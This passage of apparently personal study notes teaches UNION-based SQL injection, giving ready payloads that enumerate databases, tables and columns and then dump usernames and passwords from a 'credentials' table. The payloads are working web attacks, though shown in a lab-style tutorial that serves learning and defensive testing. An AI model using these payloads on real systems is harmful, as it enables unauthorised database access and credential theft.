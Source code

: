 ```shell-session
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Let us find out which database the web application is running to retrieve data. We can find the <mark class="hltr-green">current database</mark> with the `SELECT database()` query.

```sql
cn' UNION select 1,database(),2,3-- -
```


### <mark class="hltr-orange">Tables</mark>

We need to get a list of the tables to query them with a `SELECT` statement. To find all tables within a database, we can use the `TABLES` table in the `INFORMATION_SCHEMA` Database.

In this example we will list all the names of the tables that reside in the 'dev' database: 
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

### <mark class="hltr-orange">Colums</mark>

To dump the data of the `credentials` table, we first need to find the column names in the table, which can be found in the `COLUMNS` table in the `INFORMATION_SCHEMA` database

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

### <mark class="hltr-orange">Data</mark>

Now that we have all the information, we can form our `UNION` query to dump data of the `username` and `password` columns from the `credentials` table in the `dev` database. We can place `username` and `password` in place of columns 2 and 3:

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

